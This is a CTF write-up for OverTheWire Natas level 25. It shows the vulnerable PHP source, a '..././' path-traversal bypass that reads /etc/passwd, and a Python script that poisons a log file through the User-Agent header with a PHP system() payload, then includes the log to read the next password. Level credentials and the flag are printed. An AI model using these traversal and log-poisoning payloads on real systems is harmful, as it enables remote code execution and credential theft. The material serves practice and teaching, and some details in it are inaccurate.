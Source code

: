 # CTF Writeup - **OverTheWire Natas24- Natas25**

**Author**: spiketyson 

---

## Challenge Details

- **Challenge Name:** Natas24 - Natas25
- **Category:** Linux
- **Difficulty Level:** Easy
- **Date:** 07-01-2025

---

## Summary

This challenge is the introductory level for the Natas series on OverTheWire, focusing on web exploitation. The goal is to find the flag that is hidden web server using burpsuite if possible.

---

## Approach

Since this is an basic challenge, I planned to use python to find the flag using type juggling.

---

## Solution Walkthrough

Connecting to the web server using:

```bash
Username: natas25
Password: ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws
URL:      http://natas25.natas.labs.overthewire.org
```

After logging in, we can see that the webpage displays a quote where we can change language. As we dont know anything about it lets try change the language. 

```bash
Quote

You see, no one's going to help you Bubby, because there isn't anybody out there to do it. No one. We're all just complicated arrangements of atoms and subatomic particles - we don't live. But our atoms do move about in such a way as to give us identity and consciousness. We don't die; our atoms just rearrange themselves. There is no God. There can be no God; it's ridiculous to think in terms of a superior being. An inferior being, maybe, because we, we who don't even exist, we arrange our lives with more order and harmony than God ever arranged the earth. We measure; we plot; we create wonderful new things. We are the architects of our own existence. What a lunatic concept to bow down before a God who slaughters millions of innocent children, slowly and agonizingly starves them to death, beats them, tortures them, rejects them. What folly to even think that we should not insult such a God, damn him, think him out of existence. It is our duty to think God out of existence. It is our duty to insult him. Fuck you, God! Strike me down if you dare, you tyrant, you non-existent fraud! It is the duty of all human beings to think God out of existence. Then we have a future. Because then - and only then - do we take full responsibility for who we are. And that's what you must do, Bubby: think God out of existence; take responsibility for who you are.

Scientist, Bad Boy Bubby

```

So, For this level we need to change it to correct language since this is the only input we can change. Lets view the source code if there is anything to exploit.

```bash
<?php

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
        if ($handle = opendir($path))
            while (false !== ($file = readdir($handle)))
                if ($file != "." && $file != "..")
                    $listoffiles[]=$file;
        
        closedir($handle);
        return $listoffiles;
    } 
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>
```

We can see that there is a form which takes the `lang` value as input searches the fileystem for the file contents and tries to display the contents using `safeinclude` function. This is interesting as we need something to display the password, we need to note that the directory travesal is being checked and the password directory as also being checked in the function. We can also see that everything can be seen in the `/var/www/natas/natas25/logs/natas25_PHPSESSID.log` log file. Lets try inputting `../../../../../../` if we input this for `lang` we wont see any change in the webpage because the `../`  is being replaced and this is logged in the `PHPSESSID` log file. Lets exploit this by using `..././` if we input this then the resulting string after removing `../` will be `../`. So Lets use `..././..././..././..././..././..././etc/passwd`.

```bash
# root:x:0:0:root:/root:/bin/bash
# daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
# bin:x:2:2:bin:/bin:/usr/sbin/nologin
# sys:x:3:3:sys:/dev:/usr/sbin/nologin
# sync:x:4:65534:sync:/bin:/bin/sync
# games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

Since its printing all the data we are able to exploit it. But still we cannot get the password because directory traversal for `natas_webpass` is being checked. So Lets check the log file if we can get anything from it using the exploit with `..././..././..././..././..././..././var/www/natas/natas25/logs/natas25_PHPSESSID.log`. From the source code we can see that the `HTML_USER_AGENT` is being logged in the log file as shown below.

```bash
[07.01.2025 18::59:10] python-requests/2.32.3 "Directory traversal attempt! fixing request."
```

We know that we are requesting the above using the below program and we can also change the HTML_USER_AGENT as shown below to exploit it to use `php` as the html user agent and when the php is being executed to write the log file it will fetch the contents of the password for us as shown below. 

```bash
import requests

target = 'http://natas25.natas.labs.overthewire.org'
auth = ('natas25','ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws')
session = requests.Session()

headers = {'User-Agent': '<?php system("cat /etc/natas_webpass/natas26"); ?>'}

r = session.get(target, auth=auth)

r = session.post(target, headers=headers, data={'lang': "..././..././..././..././..././..././var/www/natas/natas25/logs/natas25_" + r.cookies['PHPSESSID']+ ".log"}, auth=auth)
print(r.text)
```

The above script creates a session first with a request. It sends out a get request to get the session `ID`. The python code will send out a post request using the same session but also including `User-Agent` Header as well as `lang` parameter. This will print the password in the log file for us and display it as shown below.

```bash
# [07.01.2025 19::01:25] cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE
#  "Directory traversal attempt! fixing request."
# <br />
# <b>Notice</b>:  Undefined variable: __GREETING in <b>/var/www/natas/natas25/index.php</b> on line <b>80</b><br />
# <h2></h2><br />
# <b>Notice</b>:  Undefined variable: __MSG in <b>/var/www/natas/natas25/index.php</b> on line <b>81</b><br />
# <p align="justify"><br />
# <b>Notice</b>:  Undefined variable: __FOOTER in <b>/var/www/natas/natas25/index.php</b> on line <b>82</b><br />
# <div align="right"><h6></h6><div><p>
# <div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
# </div>
```


## Flag

**Flag:** cVXXwxMS3Y26n5UZU89QgpGmWCelaQlE


---

## Lessons Learned

It was a bit a learning challenge for me. I was got the idea that we need to exploit the language request, but couldnt fully figure out the logic. 